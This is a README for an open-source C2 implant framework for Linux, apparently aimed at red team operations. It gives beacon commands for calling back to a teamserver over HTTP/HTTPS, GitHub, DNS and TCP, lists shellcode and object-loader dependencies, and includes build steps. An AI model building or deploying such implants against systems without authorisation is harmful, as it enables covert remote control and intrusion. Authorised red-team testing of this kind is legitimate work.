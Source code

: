 # Exploration C2 Linux Implant

## Overview

**Exploration** is a modular Command and Control (C2) framework designed for red team operations. This repository provides the **Beacon** component implemented in C++ for targeting Linux systems. The associated TeamServer and Client components are available in the [C2TeamServer](https://github.com/maxDcb/C2TeamServer) repository.

Multiple Beacons in this project are capable of communicating with the TeamServer over various channels. Supported transport mechanisms include HTTP/HTTPS, GitHub, DNS, and TCP.

## Communication Examples

```bash
# HTTP/HTTPS
BeaconHttp <TEAMSERVER_IP> <LISTENER_PORT> <http|https>
BeaconHttp 10.10.10.10 8443 https
BeaconHttp 10.10.10.10 8080 http

# GitHub
BeaconGithub <GITHUB_USER/REPO> <ACCESS_TOKEN>
BeaconGithub maxDcb/C2Implant ghp_dsfgdfhdf5554456g4fdg465...

# DNS
BeaconDns <DNS_SERVER> <TEAMSERVER_DOMAIN>
BeaconDns 8.8.8.8 bac.superdomain.com

# TCP
BeaconTcp <LISTENER_IP> <LISTENER_PORT>
BeaconTcp 127.0.0.1 4444
```

## Build Instructions

### Submodules & External Dependencies

This project utilizes several external libraries and tools:

* [Donut](https://github.com/TheWover/donut): Generates shellcode from PE files.
* [COFFLoader](https://github.com/trustedsec/COFFLoader): Executes object files, such as those in [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).
* [cpp-base64](https://github.com/ReneNyffenegger/cpp-base64): Provides base64 encoding/decoding.
* [nlohmann/json](https://github.com/nlohmann/json): JSON parsing library.

### Building the Linux Beacons and Modules

Initialize submodules and prepare the build environment:

```bash
git submodule update --init
mkdir build
cd build
```

Compile:

```bash
cmake .. -DCMAKE_PROJECT_TOP_LEVEL_INCLUDES=./conan_provider.cmake

make -j4
```

Project can also be build with the C2Core package:

```
# download last linux package
url="$(curl -sH 'Accept: application/vnd.github+json' \
  ${GITHUB_TOKEN:+-H "Authorization: Bearer $GITHUB_TOKEN"} \
  'https://api.github.com/repos/maxDcb/C2Core/releases?per_page=100' \
  | jq -r '[.[] | select(.tag_name|startswith("linux-"))]
           | sort_by(.created_at) | reverse
           | .[0].assets[]
           | select(.name|test("^C2Core-Linux.*"))
           | .browser_download_url' | head -n1)"

fname="${url##*/}"
curl -L "$url" -o "$fname"
echo "Downloaded: $fname"

mkdir -p C2Core-Linux && tar -xzf C2Core-Linux.tar.gz -C C2Core-Linux

export CMAKE_PREFIX_PATH=`pwd`/C2Core-Linux

cmake .. -DCMAKE_PROJECT_TOP_LEVEL_INCLUDES=./conan_provider.cmake

make -j4
```


### Output Locations

* Compiled Beacons: `Release/Beacons`
* Compiled Modules: `Release/Modules`
